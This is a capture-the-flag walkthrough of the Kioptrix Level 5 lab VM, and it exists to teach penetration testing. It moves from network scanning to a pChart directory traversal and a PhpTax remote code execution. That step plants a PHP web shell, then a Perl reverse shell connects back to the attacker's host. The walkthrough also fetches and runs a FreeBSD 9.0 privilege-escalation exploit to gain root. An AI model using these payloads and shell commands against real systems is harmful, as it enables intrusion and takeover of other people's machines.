

# KIOPTRIX Level 5 Walkthrough

## Target determining

```
sudo netdiscover
```

```
 Currently scanning: 192.168.140.0/16   |   Screen View: Unique Hosts                                                                                       
                                                                                                                                                            
 152 Captured ARP Req/Rep packets, from 17 hosts.   Total size: 9120                                                                                        
 _____________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname      
 -----------------------------------------------------------------------------
 172.10.1.1      2c:c8:1b:de:a0:3d    115    6900  Routerboard.com                                                                                          
 172.10.1.64     10:12:fb:7e:1a:d5      9     540  Hangzhou Hikvision Digital Technology Co.,Ltd.                                                           
 172.10.1.26     74:ac:b9:96:bd:98      3     180  Ubiquiti Networks Inc.                                                                                   
 192.168.1.199   e0:70:ea:fd:4a:81      7     420  HP Inc.                                                                                                  
 172.10.1.106    3c:06:30:45:31:07      1      60  Apple, Inc.                                                                                              
 172.10.1.12     f8:4d:89:5b:a8:c8      1      60  Apple, Inc.                                                                                              
 172.10.1.42     68:2f:67:8e:bc:52      1      60  Apple, Inc.                                                                                              
 172.10.0.116    34:de:1a:a9:92:e1      4     240  Intel Corporate                                                                                          
 0.0.0.0         f4:4d:30:66:c2:f7      1      60  Elitegroup Computer Systems Co.,Ltd.                                                                     
 172.10.0.54     b0:be:83:21:05:f4      2     120  Apple, Inc.                                                                                              
 172.10.0.181    f4:92:bf:72:8e:d7      2     120  Ubiquiti Networks Inc.                                                                                   
 172.10.1.66     10:12:fb:7e:1a:cf      1      60  Hangzhou Hikvision Digital Technology Co.,Ltd.                                                           
 192.168.96.1    d4:5d:64:54:4e:d1      1      60  ASUSTek COMPUTER INC.                                                                                    
 172.10.1.48     00:0c:29:14:9f:67      1      60  VMware, Inc.
```

Target: 172.10.1.48

Attacker: 172.10.1.49

## Enumeration

### Nmap

```
nmap -T4 -p- -sSCV 172.10.1.48
```

```
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-18 22:57 EDT
Nmap scan report for adsl-172-10-1-48.dsl.sndg02.sbcglobal.net (172.10.1.48)
Host is up (0.00040s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT     STATE  SERVICE VERSION
22/tcp   closed ssh
80/tcp   open   http    Apache httpd 2.2.21 ((FreeBSD) mod_ssl/2.2.21 OpenSSL/0.9.8q DAV/2 PHP/5.3.8)
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.2.21 (FreeBSD) mod_ssl/2.2.21 OpenSSL/0.9.8q DAV/2 PHP/5.3.8
8080/tcp open   http    Apache httpd 2.2.21 ((FreeBSD) mod_ssl/2.2.21 OpenSSL/0.9.8q DAV/2 PHP/5.3.8)
|_http-server-header: Apache/2.2.21 (FreeBSD) mod_ssl/2.2.21 OpenSSL/0.9.8q DAV/2 PHP/5.3.8
MAC Address: 00:0C:29:14:9F:67 (VMware)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 109.81 seconds
```

### Nikto

```
nikto -host http://172.10.1.48/
```

```
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          172.10.1.48
+ Target Hostname:    172.10.1.48
+ Target Port:        80
+ Start Time:         2022-08-18 23:01:36 (GMT-4)
---------------------------------------------------------------------------
+ Server: Apache/2.2.21 (FreeBSD) mod_ssl/2.2.21 OpenSSL/0.9.8q DAV/2 PHP/5.3.8
+ Server may leak inodes via ETags, header found with file /, inode: 67014, size: 152, mtime: Sat Mar 29 13:22:52 2014
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ OpenSSL/0.9.8q appears to be outdated (current is at least 1.1.1). OpenSSL 1.0.0o and 0.9.8zc are also current.
+ Apache/2.2.21 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ PHP/5.3.8 appears to be outdated (current is at least 7.2.12). PHP 5.6.33, 7.0.27, 7.1.13, 7.2.1 may also current release for each branch.
+ mod_ssl/2.2.21 appears to be outdated (current is at least 2.8.31) (may depend on server version)
+ Allowed HTTP Methods: GET, HEAD, POST, OPTIONS, TRACE 
+ OSVDB-877: HTTP TRACE method is active, suggesting the host is vulnerable to XST
+ mod_ssl/2.2.21 OpenSSL/0.9.8q DAV/2 PHP/5.3.8 - mod_ssl 2.8.7 and lower are vulnerable to a remote buffer overflow which may allow a remote shell. http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2002-0082, OSVDB-756.
+ 8724 requests: 0 error(s) and 11 item(s) reported on remote host
+ End Time:           2022-08-18 23:03:18 (GMT-4) (102 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

### Whatweb

```
whatweb http://172.10.1.48                                                                
```

```
http://172.10.1.48 [200 OK] Apache[2.2.21][mod_ssl/2.2.21], Country[UNITED STATES][US], HTTPServer[FreeBSD][Apache/2.2.21 (FreeBSD) mod_ssl/2.2.21 OpenSSL/0.9.8q DAV/2 PHP/5.3.8], IP[172.10.1.48], Meta-Refresh-Redirect[pChart2.1.3/index.php], OpenSSL[0.9.8q], PHP[5.3.8], WebDAV[2]
http://172.10.1.48/pChart2.1.3/index.php [302 Found] Apache[2.2.21][mod_ssl/2.2.21], Country[UNITED STATES][US], HTTPServer[FreeBSD][Apache/2.2.21 (FreeBSD) mod_ssl/2.2.21 OpenSSL/0.9.8q DAV/2 PHP/5.3.8], IP[172.10.1.48], OpenSSL[0.9.8q], PHP[5.3.8], RedirectLocation[examples/index.php], WebDAV[2], X-Powered-By[PHP/5.3.8]
http://172.10.1.48/pChart2.1.3/examples/index.php [200 OK] Apache[2.2.21][mod_ssl/2.2.21], Country[UNITED STATES][US], HTTPServer[FreeBSD][Apache/2.2.21 (FreeBSD) mod_ssl/2.2.21 OpenSSL/0.9.8q DAV/2 PHP/5.3.8], IP[172.10.1.48], OpenSSL[0.9.8q], PHP[5.3.8], Script, Title[pChart 2.x - examples rendering], WebDAV[2], X-Powered-By[PHP/5.3.8]
```

### Web directory enumerating

```
dirbuster -u http://172.10.1.48 -l /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 64
```

### Web surfing

The homepage at http://172.10.1.48:



There's also a page in http://172.10.1.48:8080 (as result of nmap), but it's forbidden:


Investigate the home page source, found some interesting infomation:

```
<html>
 <head>
  <!--
  <META HTTP-EQUIV="refresh" CONTENT="5;URL=pChart2.1.3/index.php">
  -->
 </head>

 <body>
  <h1>It works!</h1>
 </body>
</html>
```

Go to the URL in page soucre, there's another page using pChart 2.1.3:


## Exploitation

Search for "pchart 2.1.3 exploit", there's some interesting infomation:

```
searchsploit 'pchart 2.1.3'

--------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                             |  Path
--------------------------------------------------------------------------------------------------------------------------- ---------------------------------
pChart 2.1.3 - Multiple Vulnerabilities                                                                                    | php/webapps/31173.txt
--------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

```
searchsploit -m php/webapps/31173.txt
  Exploit: pChart 2.1.3 - Multiple Vulnerabilities
      URL: https://www.exploit-db.com/exploits/31173
     Path: /usr/share/exploitdb/exploits/php/webapps/31173.txt
File Type: HTML document, ASCII text

Copied to: //31173.txt
```

There's a Directory Traversal vulnerability at ```index.php?Action=View&Script=%2f..%2f..%2fetc/passwd```:


Read the apache configuration file, the file location is ```/usr/local/etc/apache22/httpd.conf```:


Search for "8080", we know that this page requires "User-Agent ^Mozilla/4.0" to access it. Open http://172.10.1.48:8080 with BurpSuite, replace the User-Agent to Mozilla/4.0.


We found the Index page of phptax:


The homepage of phptax is:


Search "phptax" for exploit script:

```
searchsploit phptax 
                 
--------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                             |  Path
--------------------------------------------------------------------------------------------------------------------------- ---------------------------------
PhpTax - 'pfilez' Execution Remote Code Injection (Metasploit)                                                             | php/webapps/21833.rb
PhpTax 0.8 - File Manipulation 'newvalue' / Remote Code Execution                                                          | php/webapps/25849.txt
phptax 0.8 - Remote Code Execution                                                                                         | php/webapps/21665.txt
--------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

There're some scripts for RCE the target. Try ```php/webapps/25849.txt``` with payload:

```
URL/index.php?field=rce.php&newvalue=%3C%3Fphp%20passthru(%24_GET%5Bcmd%5D)%3B%3F%3E
URL/data/rce.php?cmd=id
```

The result is as expected:


Attacker listens on port 4444 and excute the command in victim:

```
perl -e 'use Socket%3b%24i%3d"172.10.1.49"%3b%24p%3d4444%3bsocket(S%2cPF_INET%2cSOCK_STREAM%2cgetprotobyname("tcp"))%3bif(connect(S%2csockaddr_in(%24p%2cinet_aton(%24i)))){open(STDIN%2c">%26S")%3bopen(STDOUT%2c">%26S")%3bopen(STDERR%2c">%26S")%3bexec("%2fbin%2fsh -i")%3b}%3b'
```

Get the shell:

```
nc -lvnp 4444
listening on [any] 4444 ...
connect to [172.10.1.49] from (UNKNOWN) [172.10.1.48] 59903
sh: can't access tty; job control turned off
$ whoami
www
```

### Privilege Escalation

Get information about victim machine OS:

```
$ uname -a
FreeBSD kioptrix2014 9.0-RELEASE FreeBSD 9.0-RELEASE #0: Tue Jan  3 07:46:30 UTC 2012     root@farrell.cse.buffalo.edu:/usr/obj/usr/src/sys/GENERIC  amd64
```

Search for FreeBSD 9.0 privilege escalation script:

```
searchsploit FreeBSD 9.0

--------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                             |  Path
--------------------------------------------------------------------------------------------------------------------------- ---------------------------------
FreeBSD 9.0 - Intel SYSRET Kernel Privilege Escalation                                                                     | freebsd/local/28718.c
FreeBSD 9.0 < 9.1 - 'mmap/ptrace' Local Privilege Escalation                                                               | freebsd/local/26368.c
--------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
                                                                                                                                                             
searchsploit -m freebsd/local/26368.c

  Exploit: FreeBSD 9.0 < 9.1 - 'mmap/ptrace' Local Privilege Escalation
      URL: https://www.exploit-db.com/exploits/26368
     Path: /usr/share/exploitdb/exploits/freebsd/local/26368.c
File Type: C source, ASCII text

Copied to: /root/26368.c
```

Upload this exploit script to victim. Victim machine:

```
$ fetch http://172.10.1.49:8000/26368.c
26368.c                                                  0  B    0  Bps

ls -l
total 13440
drwxrwxrwx  12 www  wheel      512 May  7  2003 1040
-rw-r--r--   1 www  wheel        0 Aug 19 02:37 26368.c
drwxrwxrwx   2 www  wheel      512 May  7  2003 SchA
drwxrwxrwx   2 www  wheel      512 May  7  2003 SchB
drwxrwxrwx   6 www  wheel      512 May  7  2003 SchD
drwxrwxrwx   4 www  wheel      512 May  7  2003 SchD1
drwxrwxrwx   7 www  wheel      512 May  7  2003 W2
drwxrwxrwx   2 www  wheel     1536 Mar 26  2014 pdf
-rw-r--r--   1 www  wheel       29 Aug 19 00:26 rce.php
```

The script from searchsploit may be buggy. Download this script from exploidb page: https://www.exploit-db.com/exploits/26368 

**Exploit**

```
$ gcc 26368.c -o exp
$ ./exp
whoami
root

id
uid=0(root) gid=0(wheel) egid=80(www) groups=80(www)

cd /root

ls
.cshrc
.history
.k5login
.login
.mysql_history
.profile
congrats.txt
folderMonitor.log
httpd-access.log
lazyClearLog.sh
monitor.py
ossec-alerts.log

cat congrats.txt
If you are reading this, it means you got root (or cheated).
Congratulations either way...

Hope you enjoyed this new VM of mine. As always, they are made for the beginner in 
mind, and not meant for the seasoned pentester. However this does not mean one 
can't enjoy them.

As with all my VMs, besides getting "root" on the system, the goal is to also
learn the basics skills needed to compromise a system. Most importantly, in my mind,
are information gathering & research. Anyone can throw massive amounts of exploits
and "hope" it works, but think about the traffic.. the logs... Best to take it
slow, and read up on the information you gathered and hopefully craft better
more targetted attacks. 

For example, this system is FreeBSD 9. Hopefully you noticed this rather quickly.
Knowing the OS gives you any idea of what will work and what won't from the get go.
Default file locations are not the same on FreeBSD versus a Linux based distribution.
Apache logs aren't in "/var/log/apache/access.log", but in "/var/log/httpd-access.log".
It's default document root is not "/var/www/" but in "/usr/local/www/apache22/data".
Finding and knowing these little details will greatly help during an attack. Of course
my examples are specific for this target, but the theory applies to all systems.

As a small exercise, look at the logs and see how much noise you generated. Of course
the log results may not be accurate if you created a snapshot and reverted, but at least
it will give you an idea. For fun, I installed "OSSEC-HIDS" and monitored a few things.
Default settings, nothing fancy but it should've logged a few of your attacks. Look
at the following files:
/root/folderMonitor.log
/root/httpd-access.log (softlink)
/root/ossec-alerts.log (softlink)

The folderMonitor.log file is just a cheap script of mine to track created/deleted and modified
files in 2 specific folders. Since FreeBSD doesn't support "iNotify", I couldn't use OSSEC-HIDS 
for this.
The httpd-access.log is rather self-explanatory .
Lastly, the ossec-alerts.log file is OSSEC-HIDS is where it puts alerts when monitoring certain
files. This one should've detected a few of your web attacks.

Feel free to explore the system and other log files to see how noisy, or silent, you were.
And again, thank you for taking the time to download and play.
Sincerely hope you enjoyed yourself.

Be good...


loneferret
http://www.kioptrix.com


p.s.: Keep in mind, for each "web attack" detected by OSSEC-HIDS, by
default it would've blocked your IP (both in hosts.allow & Firewall) for
600 seconds. I was nice enough to remove that part :)
```
